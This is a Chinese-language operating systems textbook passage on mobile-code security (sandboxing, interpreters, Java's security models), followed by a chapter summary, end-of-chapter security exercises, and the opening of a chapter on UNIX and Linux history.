病毒和蠕虫不需要制造者有多大学问，而且往往会与用户意愿相反地侵入到计算机中。但有时人们也会不经意地在自己的机器上放入并执行外来代码。情况通常是这样发生的：在遥远的过去（在Internet世界里，代表去年），大多数网页是含有少量相关图片的静态文件，而现在越来越多的网页包含了叫做Applet的小程序。当人们下载包含Applet的网页时，Applet就会被调用并运行。例如，某个Applet也许包含了需要填充的表格以及交互式的帮助信息。当表格填好后会被送到网上的某处进行处理。税单、客户产品定单以及许多种类的表格都可以使用这种方法。
另一个让程序从一台计算机到另一台计算机上运行的例子是代理程序（agent）。代理程序指用户让程序在目标计算机上执行任务后再返回报告。例如，要求某个代理程序查看旅游网站，查找从阿姆斯特丹到旧金山的最便宜航线。代理程序会登录到每个站点上运行，找到所需的信息后，再前进到下一个站点。当所有的站点查询完毕后，它返回原处并报告结果。
第三个移动代码的例子是PostScript文件中的移动代码，这个文件将在PostScript打印机上打印出来。一个PostScript文件实际上是用PostScript语言编写，它可在打印机里执行的程序。它通常告诉打印机如何画某些特定的曲线并加以填充，它也可以做其他任何想做的事。Applet、代理和PostScript是移动代码（mobile code）的三个例子，当然还有许多其他的例子。
在前面大篇幅讨论了病毒和蠕虫之后，我们很清楚地意识到让外来代码运行在自己的计算机上多少有点冒险。然而，有些人的确想要运行外来代码，所以就会产生问题：“移动代码可以安全运行吗？”简而言之：可以，但并不容易。最基本的问题在于当进程把Applet或其他的移动代码插入地址空间并运行后，这些代码就成了合法的用户进程的一部分，并且掌握了用户所拥有的权限，包括对用户的磁盘文件进行读、写、删除或加密，把数据用E-mail发送到其他国家等。
很久以前，操作系统推出了进程的概念，为的是在用户之间建立隔离墙。在这一概念中，每个进程都有自己的保护地址空间和UID，允许获取自己的文件和资源，而不能获取他人的。而对于保护进程的一部分（指Applet）或者其他资源来说，进程概念也无能为力。线程允许在一个进程中控制多个线程，但是单个线程与其他线程之间却没有提供保护。
从理论上来说，将每个Applet作为独立的进程运行只能帮上一点忙，但缺乏可操作性。例如，某个Web网页包含了相互之间互相影响的两个或多个Applet，而数据在Web页里。Web浏览器也需要与Applet交互，启动或停止它们，为它们输入数据等。如果每个Applet被放在自己的进程里，就无法进行任何操作。而且，把每个Applet放在自己的地址空间里并不能保证Applet不窃取或损害数据。如果有Applet想这样做是很容易的，因为没有人在一旁监视。
人们还使用了许多新方法来对付Applet（通常是移动代码）。下面我们将看看其中的两种方法：沙盒法和解释法。另外，代码签名同样能够用于验证Applet代码。每一种方法都有自己的长处和短处。
1.沙盒法
第一种方法叫做沙盒法（sandboxing），这种方法将每个运行的Applet限制在一定范围的有效地址中（Wahbe等人,1993）。它的工作原理是把虚拟地址空间划分为相同大小的区域，每个区域叫做沙盒。每个沙盒必须保证所有的地址共享高位字节。对32位的地址来说，我们可以把它划分为256个沙盒，每个沙盒有16MB空间并共享相同的高8位。同样，我们也可以划分为512个8MB空间的沙盒，每个沙盒共享9位地址前缀。沙盒的尺寸可以选取到足够容纳最大的Applet而不浪费太多的地址空间。如果页面调用满足的话，物理内存不会成为问题。每个Applet拥有两个沙盒，一个放置代码，另一个放置数据，如图9-37a所示的16个16MB的沙盒。
沙盒的用意在于保证每个Applet不能跳转到或引用其他的代码沙盒或数据沙盒。提供两个沙盒的目的是为了避免Applet在运行时超越限制修改代码。通过抑制把所有的Applet放入代码沙盒，我们减少了自我修改代码的危险。只要Applet通过这种方法受到限制，它就不能损害浏览器或其他的Applet，也不能在内存里培植病毒或者对内存造成损失。
只要Applet被装入，它就被重新分配到沙盒的开头，然后系统检查代码和数据的引用是否已被限制在相应的沙盒里。在下面的讨论中，我们将看一下代码引用（如JMP和CALL指令），数据引用也是如此。使用直接寻址的静态JMP指令很容易检查：目标地址是否仍旧在代码沙盒里？同样，相对JMP指令也很容易检查。如果Applet含有要试图离开代码沙盒的代码，它就会被拒绝并不予执行。同样，试图接触外界数据的Applet也会被拒绝。
最困难的是动态JMP。大多数计算机都有这样一条指令，该指令中要跳转的目标地址在运行的时候计算，该地址被存入一寄存器，然后间接跳转。例如，通过JMP（R1）跳转到寄存器1里存放的地址。这种指令的有效性必须在运行时检查。检查时，系统直接在间接跳转之前插入代码，以便测试目标地址。这样测试的一个例子如图9-37b所示。请记住，所有的有效地址都有同样的高k位地址，所以该地址前缀被存放在临时寄存器里，如说S2。这样的寄存器不能被Applet自身使用，因为Applet有可能要求重写寄存器以避免受该寄存器限制。
有关代码是按如下工作的：首先把被检查的目标地址复制到临时寄存器S1中。然后该寄存器向右移位正好将S1中的地址前缀隔离出来。第二步将隔离出的前缀同原先装入S2寄存器里的正确前缀进行比较。如果不匹配就激活陷阱程序杀死进程。这段代码序列需要四条指令和两个临时寄存器。
对运行中的二进制程序打补丁需要一些工作，但却是可行的。如果Applet是以源代码形式出现，工作就容易得多。随后在本地的编译器对Applet进行编译，自动查看静态地址并插入代码来校验运行中的动态地址。同样也需要一些运行时间的开销以便进行动态校验。Wahbe等人（1993）估计这方面的时间大约占4%，这一般是可接受的。
另一个要解决的问题是当Applet试图进行系统调用时会发生什么？解决方法是很直接的。系统调用的指令被一个叫做基准监视器的特殊模块所替代，这一模块采用了与动态地址校验相同的检查方式（或者，如果有源代码，可以链接一个调用基准监视器的库文件，而不是执行系统调用）。在这两个方法中，基准监视器检查每一个调用企图，并决定该调用是否可以安全执行。如果认为该调用是可接受的，如在指定的暂存目录中写临时文件，这种调用就可以执行。如果调用被认为是危险的或者基准监视器无法判断，Applet就被终止。若基准监视器可以判断是哪一个Applet执行的调用，内存里的一个基准监视器就能处理所有这样Applet的请求。基准监视器通常从配置文件中获知是否允许执行。
2.解释
第二种运行不安全Applet的方法是解释运行并阻止它们获得对硬件的控制。Web浏览器使用的就是这种方法。网页上的Applet通常是用Java写的，Java可以是一种普通的编程语言，也可以是高级脚本语言，如安全TCL语言或Javascript。Java Applet首先被编译成一种叫做JVM（Java虚拟机，Java Virtual Machine）的面向栈的机器语言。正是这些JVM Applet被放在网页上，当它们被下载时就插入到浏览器内置的JVM解释器中，如图9-38所示。
使用解释运行的代码比编译运行的代码好处在于，每一条指令在执行前都由解释器进行检查。这就给了解释器识别校验地址是否有效的机会。另外，系统调用也可以被捕捉并解释。这些调用的处理方式与安全策略有关。例如，如果Applet是可信任的（如来自本地磁盘的Applet），它的系统调用就可以毫无疑问会被执行。但是如果Applet不受信任（如来自Internet的Applet），它就会被放入沙盒来限制自身的行为。
高级脚本语言也能够被解释执行。这里，解释执行不需要机器地址，所以也就不存在脚本以不允许的方式访问内存所带来的危险。解释运行的缺点是：它与编译运行的代码相比十分缓慢。
人们设计了Java编程语言和相关的运行时系统，是为了一次编写并编译后就能够在Interent上以二进制代码的形式运行在所有支持Java的机器上。从一开始设计Java语言开始，安全性就成为其重要的一部分。在这一小节，我们来看看它的工作原理。
Java是一种在类型上安全的编程语言，也就是说编译器会拒绝任何与自身类型不一致的变量使用。而C语言正好相反，请看下面的代码：
naughty_func()
{
char *p;
p=rand();
*p=0;
}
代码把产生的随机数放在指针p中。然后把0字节存储在p所包含的地址中，覆盖了地址里原先的任何代码和数据。而在Java中，混合使用类型的语句是被语法所禁止的。而且，Java没有指针变量、类型转换、用户控制的存储单元分配（如malloc和free），并且所有的数组引用都要在运行时进行校验。
Java程序被编译成一种叫做JVM（Java Virtual Machine）字节码的中间形态二进制代码。JVM有大约100个指令，大多数指令是把不同类型的对象压入栈、弹出栈或是用算术合并栈里的对象。这些JVM程序通常是解释执行程序，虽然在某些情况下它们可以被编译成机器语言以便执行得更快。在Java模式中，通过Internet发送到远程计算机上运行的Applet是JVM程序。
当Applet到达远程计算机时，首先由JVM字节码校验器查看Applet是否符合规则。正确编译的Applet会自动符合规则，但无法阻止一个恶意的用户用汇编语言写JVM格式的Applet。校验的规则包括：
1)Applet是否伪造了指针？
2)是否违背了私有类成员的访问限制？
3)是否试图把某种类型的变量用作其他类型？
4)是否产生栈上溢或下溢？
5)是否非法地将变量从一种类型转换为另一种类型？
如果Applet通过了所有的测试，它就能被安全地执行并且不用担心它会访问非自己所有内存空间。
但是Applet也可以通过调用Java方法（过程）来执行系统调用。Java处理这种调用的方法也在不断在进步。在最初的Java版本JDK（Java Development Kit）1.0里，Applet被分为两类：可信的与不可信的。从本地磁盘取出的Applet是可信的并被允许执行任何所需要的系统调用。相反，从Internet获取的Applet是不可信的。它们被限制在沙盒里运行，如图9-38所示，实际上并不能做什么事。
在从这一模式中取得了些经验后，Sun公司认为对Applet的限制太大了。在JDK 1.1版本里，引入了版本标注。当Applet从Internet传递过来后，系统首先查看Applet是否有用户信任的个人或组织标注（通过用户所信任的标注者列表来定义）。如果是，Applet就被允许做任何操作，否则就必须在沙盒里运行并且受到很强的限制。
在获取了一些经验后，代码标注也不那么令人满意了，所以安全模式又有了变化。JDK 1.2版本提供了一套可配置的严密的安全策略，针对包含本地和异地所有的Applet。安全模式非常复杂导致需要整整一本书来描述（Gong,1999），我们仅仅归纳出一些精华的部分。
每一个Applet具有两个特性：来源于何处以及谁签署了它。来源于何处是指URL；谁签署了它是指签名所用的私钥。每个用户都能创建包含规则列表的安全策略。规则列出了URL、签署者、对象以及如果Applet的URL和签署者匹配规则时可在对象上执行的动作。从概念上来说，上述信息如图9-39所示，虽然真正的格式有所不同并且与Java的类等级有关。
其中的一种允许的动作是访问文件。该动作可以指定某一特定的文件或目录，给定目录下的所有文件，或给定目录下所有的文件和子目录的递归集合。图9-21的三行包含了3种情况。在第一行里，用户Susan建立了她的许可文件，这样来自她的税务预备用计算机，www.taxprep.com，并由该公司签名的Applet可以访问位于1040.xls文件里的她的税务数据。这是惟一可读的文件，并且任何其他的Applet都不能读。而且，来自于所有资源的所有Applet，无论是否签名，都可以读写/usr/tmp中的文件。
而且，Susan也信任Microsoft，让来自于该公司站点并签名过的Applet读、写或删除Office目录下的所有文件。例如，修复bug并安装新的软件版本。为了校验签名，Susan要么在她的磁盘里存放公钥，要么动态地获取公钥，例如，在持有她所信任的公司的公钥以后，使用该公司的签名证书格式。
文件不是仅仅要保护的资源。网络访问也可以被保护。被保护的对象是特定计算机的特定端口。每一台计算机由一个IP地址或DNS名确定；计算机上的端口由一排数字确定。可能的动作包括要求连接远程计算机以及接受来自远程计算机的连接。通过这种方法，Applet可以获得访问网络的权限，但仅局限于与许可列表中明示的计算机进行交谈。Applet可以动态地装入所需的附加代码（类），但用户提供的类装载器可以精确地控制由哪台计算机产生这样的类。当然还有其他大量的安全特性。
计算机安全性是一个非常热门的话题，很多人都在研究。其中一个重要的话题就是可信计算，尤其是可信计算的平台（Erickson，2003；Garfinkel等人，2003；Reid和Caelli，2005以及Thibadeau，2006）和相关的公共政策话题（Anderson，2003）。信息流的模型和实现是一个正在研究的话题（Castro等人，2006；Efstathopoulos等人，2005；Hicks等人，2007和Zeldovich等人，2006）。
用户验证（包括生物学识别）仍然是很重要的（BhargavSpantzel等人，2006；Bergadano等人，2002；Pusara和Brodley，2004；Sasse，2007以及Yoon等人，2004）。
各种恶意软件被广泛地研究，包括特洛伊木马（Agrawal等人，2007；Franz，2007和Moffie等人，2006）、病毒（Bruschi等人，2007；Cheng等人，2007和Rieback等人，2006）、蠕虫（Abdelhafez等人，2007；Jiang和Xu，2006；Kienzle和Elder，2003以及Tang和Cheng，2007）、间谍软件（Egele等人，2007；Felten和Halderman，2006以及Wu等人，2006）和rootkit（Kruegel等人，2004；Levine等人，2006；Quynh和Takefuji，2007以及Wang和Dasgupta，2007）。既然病毒、间谍软件和rootkit都会尽力地隐藏，那么就会有关于stealth技术的工作以及它们怎么样才能被侦测到（Carpenter等人，2007；Garfinkel等人，2007以及Lyda和Hamrock，2007）。加密技术本身也要被检查（Harmsen和Pearlman，2005以及Kratzer等人，2006）。
计算机中经常会包含有价值的机密数据，包括纳税申请单、信用卡账号、商业计划、交易秘密等。这些计算机的主人通常非常渴望保证这些数据是私人所有，不会被窜改，这就迅速地导致了我们要求操作系统一定要有好的安全性。一种保证信息机密的方法是把它加密并妥善地保管密钥。有时侯提供数字信息的验证是很重要的，在这种情况下，可以使用加密散列表、数字签名，以及被一个可信的证书验证机构所签名的证书。
对信息的访问权限可以模型化为一个大矩阵，行表示域（用户），列表示对象（文件）。每一个元素表示相应的域对相应对象的访问权限。因为这个矩阵是稀疏的，所以它可以按行存储，这样就成了一个能力链表，表示某一域能够做什么；或者稀疏矩阵也可以按列存储，这样就成了一个访问控制链表，表示谁并且如何访问这个对象。使用正式的建模技术，系统里的信息流可以被模型化并受到限制。但是，有时利用隐秘的通道还是可以泄露出去的，比如调整CPU的利用率。
在任何一个安全的系统一定要认证用户。这可以通过用户知道的、用户拥有的，或者用户的身份（生物测定）来完成。使用双因素的身份认证，比如虹膜扫描和口令，可以加强安全性。
代码中有很多bug可以被利用来控制程序和系统。这些包括缓冲区溢出、格式串攻击、返回libc攻击、整数溢出攻击、代码注入攻击和特权扩大攻击。
Internet上遍布恶意软件，有特洛伊木马、病毒、蠕虫、间谍软件和rookit。每一个都对数据机密性和一致性产生着威胁。更糟糕的是，恶意软件攻击可能会控制一台机器，并把这台机器变成一台僵尸机器用来发送垃圾邮件或者发起其他的攻击。
幸运的是，系统有很多种方法来保护自己。最好的策略就是全面防御，使用多种技术一起防御。这些技术有防火墙、病毒扫描、代码签名、囚禁、入侵检测，以及封装移动代码。
1.破译下列的单一字符替换密文。明文包含的仅仅是字母，并且是Lewis Carroll的著名诗歌。
kfd ktbd fzm eubd kfd pzyiom mztx ku kzyg ur bzha kfthcm
ur mfudm zhx mftnm zhx mdzythc pzq ur ezsszcdm zhx gthcm
zhx pfa kfd mdz tm sutythc fuk zhx pfdkfdi ntcm fzld pthcm
sok pztk z stk kfd uamkdim eitdx sdruid pd fzld uoi efzk
rui mubd ur om zid uok ur sidzkf zhx zyy ur om zid rzk
hu foiia mztx kfd ezindhkdi kfda kfzhgdx ftb boef rui kfzk
2.假设有一个私密密钥使用了26×26矩阵，行与列都以ABC...Z开头。明文每次用两个字符加密。第一个字符是列，第二个字符是行。每个单元由包含两个密文字符的行和列交叉组成。这样的矩阵必须有些什么限制？共有多少个密钥？
3.私密密钥机制比公钥机制更有效，但需要发送者和接收者事先共用一个密钥。假设发送者和接收者从未碰到过，但有可信的第三方与发送方共享密钥与接收方也共享密钥（另一个）。那么发送方和接收方如何在这种环境下建立一个新的共享密码体制？
4.举一个简单例子说明一个数学函数，对一级近似来说这一函数是单向函数。
5.假设有A和B两个陌生人想使用对称密钥加密和对方交流，但是没有共享对称钥匙。假设他们俩都信任第三方C，C的公钥是大家都知道的。在这种情况下两个陌生人如何建立一个新的对称密钥？
6.假设一个系统在某时有1000个对象和100个域。在所有域中1%的对象是可访问的（r、w和x的某种组合），两个域中有10%的对象是可访问的，剩下89%的对象只在惟一一个域中才可访问。假设需要一个单位的空间存储访问权（r、w和x的某种组合）、对象ID或一个域ID。分别需要多少空间存储全部的保护矩阵、作为访问控制表的保护矩阵和作为能力表的保护矩阵？
7.我们讨论过的两种保护机制有能力表和访问控制表。对于下面每个保护问题，请问应该使用哪个机制。
a)Ken希望除了他的某位办公室的同事之外，其他所有人都可以读到他的文件。
b)Mitch和Steve想要共享一些秘密文件。
c)Linda想要她一部分的文件是公开的。
8.说出在这个UNIX目录里所列保护矩阵的所有者和操作权限。请注意，asw属于两个组：users和devel；gmw仅仅是users组的成员。把两个成员和两个组当作域，矩阵就有四行（每个域一行）和四列（每个文件一列）。
9.把前一个问题中的内容作为访问列表，说出每个所列目录的操作权限。
10.在保护权限的Amoeba架构里，用户可要求服务器产生一个享有部分权限的新权限，并可转移给用户的朋友。如果该朋友要求服务器移去更多的权限以便转移给其他人的话，会发生什么情况呢？
11.在图9-13里，从进程B到对象1没有箭头。可以允许存在这类箭头吗？如果存在，它破坏了什么原则？
12.如果在图9-13里允许消息从进程传递到进程，这样符合的是什么原则？特别对进程B来说，它可以对哪些进程发送消息，哪些不可以？
13.请看图9-16所示的隐写术。每个像素由色彩空间的点表示，该点处在其轴为R、G、和B值的三维系统中。在使用这个空间时，请解释在图片中如果使用了隐写术，对分辨率有何影响？
14.采用各种压缩算法ASCII文件里的自然语言可被压缩至少50%。如果采用在1600×1200图片中每个像素低位插入ASCII文本的方法，隐写术可写入的容量大小为多少个字节？图片尺寸将增加到多少（假设没有加密数据也没有由加密带来的扩展）？这种方法的效率即负载/（所传送的字节）多大？
15.假设一组紧密联系的持不同政见者在被压制的国家使用隐写术发送有关该国的状况消息到国外，政府意识到这一点并发送含有虚假信息的伪造图片。这些持不同政见者如何告诉人们来区分真实的消息和错误的消息？
16.去www.cs.vu.nl/ast网站点击covered writing链接。按照指令抽取剧本。回答下面的问题：
(a)原始的斑马纹和斑马纹文件的大小是多少?
(b)斑马纹文件中秘密地存储了什么剧本？
(c)斑马纹文件中秘密地存储了多少字节？
17.让计算机不回显密码比回显星号安全些。因为回显出星号会让屏幕周围的人知道密码的长度。假设密码仅包括大小写字母和数字，密码长度必须大于5个字符小于8个字符，那么在不出现回显时有多安全？
18.在得到学位证书后，你申请作为一个大学计算中心的管理者。这个计算中心正好淘汰了旧的主机，转用大型的LAN服务器并运行UNIX系统。你得到了这个工作。工作开始15分钟后，你的助理冲进来叫道，“有的学生发现了我们用来加密密码的算法并贴在Internet。”那么你该怎么办？
19.Morris-Thompson采用n位随机码（盐）的保护模式使得入侵者很难发现大量事先用普通字符串加密的密码。当一个学生试图从自己的计算机上猜出超级用户密码时，这一结构能提供安全保护吗？假设密码文件是可读的。
20.请解释UNIX口令机制与加密原理的不同。
21.假设一个黑客可以得到一个系统的密码文件。系统使用有n位salt的Morris-Thompson保护机制的情况相对于没有使用这种机制的情况下，黑客需要多少额外的时间破解所有密码。
22.请说出3个有效地采用生物识别技术作为登录认证的特征。
23.某个计算机科学系有大量的在本地网络上的UNIX机器。任何机器上的用户都可以以
rexec machine4 who
的格式发出命令并在machine4上执行，而不用远程登录。这一结果是通过用户的核心程序把命令和UID发送到远程计算机所完成的。在这一系统中，核心程序是可信任的吗？如果有些计算机是学生的无保护措施的个人计算机呢？
24.在UNIX系统里使用密码与Lamport登录到非安全网络的架构有何相同点？
25.Lamport的一次性密码技术采用的逆序密码。这种方法比第一次用f(s)，第二次用f(f(s))并依次类推的方法更简单吗？
26.使用MMU硬件来阻止如图9-24的溢出攻击可行吗？解释为什么？
27.请列出C编译器的一种可大量减少安全漏洞的特性。为什么这种特性没有被广泛使用？
28.特洛伊木马可以在由权限保护的系统中工作吗？
29.在删除文件时，文件块被放回空闲块列表，但并没有被清除。你认为让操作系统在释放之前首先清除每个文件块是个好办法吗？请从这两种做法的安全性和性能分别考虑？并解释每种操作的效果？
30.寄生病毒如何保证a)在主程序运行前自己先运行？b)完成自己的操作后把控制权交还给主程序？
31.有些操作系统需要在磁道的开始处设置磁盘分区。这对引导区病毒来说有什么便利？
32.改变图9-27所示的程序，让它找到所有的C语言程序而不是可执行程序。
33.图9-32d所示的病毒被加密过。反病毒实验室的科学家如何判断哪部分文件是加密密钥以便能够解密病毒代码并反向恢复？Virgil如何才能让这些科学家的工作更困难？
34.图9-32c的病毒同时有压缩程序和解压缩程序。解压缩程序用来展开并运行被压缩的可运行程序，那么压缩程序用来做什么呢？
35.从病毒制作者的观点出发，说出多形态加密病毒的一个缺点。
36.通常人们把下列操作看作是受到病毒攻击后的恢复措施：
a)启动被感染的系统。
b)把所有文件备份到外部存储介质。
c)运行fdisk格式化磁盘。
d)从原版的CD-ROM重新安装操作系统。
e)从外部存储介质重新装入文件。
请说明上述操作中的两个错误。
37.在UNIX里可能存在共事者病毒吗（不改动已有文件的病毒）？如果可能，为什么？如果不可能，为什么？
38.病毒和蠕虫的区别是什么？它们分别是如何繁殖的？
39.自解压缩文件，把一个或多个文件以及一个提取程序压缩在一起，通常用作发布程序或升级程序。请讨论这种文件的安全特性。
40.讨论用某个程序做输入，写一个判断此输入程序是否含有病毒程序的可能性。
41.9.8.1节描述了通过一系列防火墙规则将外界访问限制在仅有的三个服务上。请描述另一个能添加到此防火墙上的规则集，使得对这些服务的访问受到进一步严格的限制。
42.在某些计算机上，图9-37b使用的SHR指令用“0”来填充未被使用的位；而其他位向右移。对图9-37b来说，使用不同的移位指令对正确性是否存在影响？如果有影响，哪种移位方法更好一些？
43.要校验Applet是否由可信的供应商标记，Applet供应商可以提供由可信第三方签署的证书，其中包括其公钥。但是读取证书用户需要可信第三方的公钥。这可由第四方提供，但是用户又需要第四方的公钥。这看上去没有办法解决验证系统，然而实际上浏览器却可以做到。为什么？
44.描述使得Java成为比C能写出更安全的程序的编程语言的三个特征。
45.假设你的系统使用JDK 1.2。给出允许一个来自www.appletsRus.com的小应用程序在你的机器上运行时你使用的规则（类似图9-39中的那些规则）。这个小应用程序可能从www.appletsRus.com中下载额外的文件，在/usr/tmp/中读写文件，也从/usr/me/appletdir中读文件。
46.用C语言或shell脚本写一对程序，通过UNIX系统里的隐蔽信道来发送和接收消息。提示：即使当文件不可访问时也可以看到许可位，通过设置其参数的方法，确保sleep命令或系统调用被延迟一段固定的时间。请度量在一个空闲系统上的数据率，然后通过启动大量的各种后台进程来人为创建较大的负载，再次计算数据率。
47.一些UNIX系统使用DES算法加密密码。这些系统通常连续25次应用DES算法获得加密密码。从网上下载一个DES的实现，写一个程序加密一个密码，检查一个密码对这个系统是否有效。使用Morris-Thompson保护机制产生一个有10个加密密码的列表。使用16位盐。
48.假设一个系统使用访问控制表维护它的保护矩阵。根据如下情况写一组管理函数管理访问控制表：(1)创建一个新的项目；(2)删除一个对象；(3)创建一个新域；(4)删除一个域；(5)新的访问权限（r、w和x的某种组合）被授予一个域来访问一个对象；(6)撤销已存在的对一个域的对象的访问权限；(7)授予某个对象对所有域的访问权限；(8)撤销某个对象对所有域的访问权限。
在前面的章节中，我们大体上学习了很多关于操作系统的原理、抽象、算法和技术。现在分析一些具体的操作系统，看一看这些原理在现实世界中是怎样应用的。我们将从Linux开始，它是UNIX的一个很流行的衍生版本，可以运行在各类计算机上。它不仅是高端工作站和服务器上的主流操作系统之一，还在移动电话到超级计算机的一系列系统中得到应用。Linux系统也体现了很多重要的操作系统设计原理。
我们将从Linux的历史以及UNIX与Linux的演化开始讨论，然后给出Linux的概述，从而使读者对它的使用有一些概念。这个概述对那些只熟悉Windows系统的读者尤为有用，因为Windows系统实际上对使用者隐藏了几乎所有的系统细节。虽然图形界面可以使初学者很容易上手，但它提供了很少的灵活性而且不能使用户洞察到系统是如何工作的。
接下来是本章的核心内容，我们将分析Linux的进程与内存管理、I/O、文件系统以及安全机制。对于每个主题，我们将先讨论基本概念，然后是系统调用，最后讨论实现机制。
我们首先应该解决的问题是：为什么要用Linux作为例子?的确，Linux是UNIX的一个衍生版本，但UNIX自身有很多版本，还有很多其他的衍生版本，包括AIX、FreeBSD、HP-UX、SCO UNIX、System VSolaris等。幸运的是，所有这些系统的基本原理与系统调用大体上是相同的（在设计上）。此外，它们的总体实现策略、算法与数据结构也很相似，不过也有一些不同之处。为了使我们的例子更具体，最好选定一个系统然后从始至终地对它进行讨论。因为大多数读者相对于其他系统而言更容易接触到Linux，故我们选中Linux作为例子。况且除了实现相关的内容，本章的大部分内容对所有UNIX系统都是适用的。有很多书籍介绍怎样使用UNIX，但也有一些介绍其高级特性以及系统内核（Bovet和Cesati，2005；Maxwell，2001；McKusick和Neville-Neil，2004；Pate，2003；Stevens和Rago，2008；Vahalia，2007）
UNIX与Linux有一段漫长而又有趣的历史，因此我们将从这里开始我们的学习。UNIX开始只是一个年轻的研究人员（Ken Thompson）的业余项目，后来发展成价值数十亿美元的产业，涉及大学、跨国公司、政府与国际标准化组织。在接下来的内容里我们将展开这段历史。
回到20世纪40～50年代，当时使用计算机的标准方式是签约租用一个小时的机时，然后在这个小时内独占整台机器。至少从这个角度，所有的计算机都是个人计算机。当然，这些机器体积庞大，在任何时候只有一个人（程序员）能使用它们。当批处理系统在20世纪60年代兴起时，程序员把任务记录在打孔卡片上并提交到机房。当机房积累了足够的任务后，将由操作员在一次批处理中处理。这样，往往在提交任务一个甚至几个小时后才能得到结果。在这种情况下，调试成为一个费时的过程，因为一个错位的逗号都会导致程序员浪费数小时。
为了摆脱这种公认的令人失望且没有效率的设计安排，Dartmouth学院与M.I.T发明了分时系统。Dartmouth系统只能运行BASIC，并且经历了短暂的商业成功后就消失了。M.I.T的系统CTSS用途广泛，在科学界取得了巨大的成功。不久之后，来自Bell实验室与通用电器（随后成为计算机的销售者）的研究者与M.I.T合作开始设计第二代系统MULTICS（MULTiplexed Information and Computing Service，多路复用信息与计算服务），我们在第一章讨论过它。
虽然Bell实验室是MULTICS项目的创始方之一，但是它后来撤出了这个项目，仅留下一位研究人员Ken Thompson寻找一些有意思的东西继续研究。他最终决定在一台废弃的PDP-7小型机上自己写一个精简版的MULTICS（当时使用汇编语言）。尽管PDP-7体积很小，但是Thompson的系统实际上可以工作并且能够支持他的开发成果。随后，Bell实验室的另一位研究者Brian Kernighan有点开玩笑地把它叫做UNICS（UNiplexed Information and Computing Service，单路信息与计算服务）。尽管“EUNUCHS”的双关语是对MULTICS的删减，但是这个名字保留了下来，虽然其拼写后来变成了UNIX。
Thompson的工作给很多他在Bell实验室的同事留下了深刻的印象，很快Dennis Ritchie加入进来，接着是他所在的整个部门。在这段时间，UNIX系统有两个重大的发展。第一，UNIX从过时的PDP-7计算机移植到更现代化的PDP-11/20，然后是PDP-11/45和PDP-11/70。后两种机器在20世纪70年代占据了小型计算机的主要市场。PDP-11/45和PDP-11/70的功能更为强大，有着在当时较大的物理内存（分别为256KB与2MB）。同时，它们有内存保护硬件，从而可以同时支持多个用户。然而，它们都是16位机器，从而限制了单个进程只能拥有64KB的指令空间和64KB的数据空间，即使机器能够提供远大于此的物理内存。
第二个发展则与编写UNIX的编程语言有关。直到现在，为每台新机器重写整个系统显然是一件很无趣的事情，因此Thompson决定用自己设计的一种高级语言B重写UNIX。B是BCPL的简化版（BCPL自己是CPL的简化版，而CPL就像PL/I一样从来没有好用过）。由于B的种种缺陷，尤其是缺乏数据结构，这次尝试并不成功。接着Ritchie设计了B语言的后继者，很自然地命名为C。Ritchie同时为C编写了一个出色的编译器。Thompson和Ritchie一起工作，用C重写了UNIX。C是恰当的时间出现的一种恰当的语言，从此统治了操作系统编程。
1974年，Ritchie和Thompson发表了一篇关于UNIX的里程碑式的论文（Ritchie和Thompson，1974）。由于他们在论文中介绍的工作，他们随后获得了享有盛誉的图灵奖（Ritchie，1984；Thompson，1984）。这篇论文的发表使许多大学向Bell实验室索要UNIX的复制。由于Bell实验室的母公司AT＆T在当时作为垄断企业受到监管，不允许经营计算机业务，它很愿意能够通过向大学出售UNIX获取适度的费用。
一个偶然事件往往能够决定历史。PDP-11正好是几乎所有大学的计算机系选择的计算机，而PDP-11预装的操作系统使大量的教授与学生望而生畏。UNIX很快地填补了这个空白。这在很大程度上是因为UNIX提供了全部的源代码，人们可以（实际上也这么做了）不断地进行修补。大量科学会议围绕UNIX举行，在会上杰出的演讲者们站在台上介绍他们在系统核心中找到并改正的隐蔽错误。一位澳大利亚教授John Lions用通常是为乔叟（Chaucer）或莎士比亚（Shakespeare）作品保留的格式为UNIX的源代码编写了注释（1996年以Lions的名义重新印刷）。这本书介绍了版本6，之所以这么命名是因为它出现在UNIX程序员手册的第6版中。源代码包含8200行C代码以及900行汇编代码。由于以上所有这些活动，关于UNIX系统的新想法和改进迅速传播开来。
在几年内，版本6被版本7代替，后者是UNIX的第一个可移植版本（运行在PDP-11以及Interdata 8/32上），已经有18 800行C代码以及2100行汇编代码。在版本7上培养了整整一代的学生，这些学生毕业去业界工作后促进了它的传播。到了20世纪80年代中期，各个版本的UNIX在小型机与工程工作站上已广为使用。很多公司甚至买下源代码版权开发自己的UNIX版本，其中有一家年轻小公司叫做Microsoft（微软），它以XENIX的名义出售版本7好几年了，直到它的兴趣转移到了其他方向上。
既然UNIX是用C编写的，将它移动或者移植（正式说法）到一台新机器上比早先的时候要容易多了。移植首先需要为新机器写一个C编译器，然后需要为新机器的I/O设备，如显示器、打印机、磁盘等编写设备驱动。虽然驱动的代码是用C写的，但由于没有两个磁盘按照同样的方式工作，它不能被移植到另一台机器，并在那台机器上编译运行。最终，一小部分依赖于机器的代码，如中断处理或内存管理程序，必须重写，通常使用汇编语言。
从PDP-11向外的第一次移植是到Interdata 8/32小型机上。这次实践显示出UNIX在设计时暗含了一大批关于系统运行机器的假定，例如假定整型的大小为16位，指针的大小也是16位（暗示程序最大容量为64KB），还有机器刚好有三个寄存器存放重要的变量。这些假定没有一个与Interdata机器的情况相符，因此整理修改UNIX需要大量的工作。
另一个问题来自Ritchie的编译器。尽管它速度快，能够产生高质量的目标代码，这些代码只是基于PDP-11机器。有别于针对Interdata机器写一个新编译器的通常做法，Bell实验室的Steve Johnson设计并实现了可移植的C编译器，只需要适量的修改工作就能够为任何设计合理的机器生成目标代码。多年以来，除了PDP-11以外几乎所有机器的C编译器都是基于Johnson的编译器，因此Johnson的工作极大地促进了UNIX在新计算机上的普及。
由于所有的开发工作都必须在惟一可用的UNIX机器PDP-11上进行，这台机器正好在Bell实验室的第五层，而Interdata在第一层，因此最初向Interdata机器的移植进度缓慢。生成一个新版本意味着在五楼编译，然后把一个磁带搬到一楼去检查这个版本是否能用。在搬了几个月的磁带后，有人提出：“要知道我们是一家电话公司，为什么我们不把两台机器用电线连接起来？”这样UNIX网络诞生了。在移植到Interdata之后，UNIX又移植到VAX和其他计算机上。
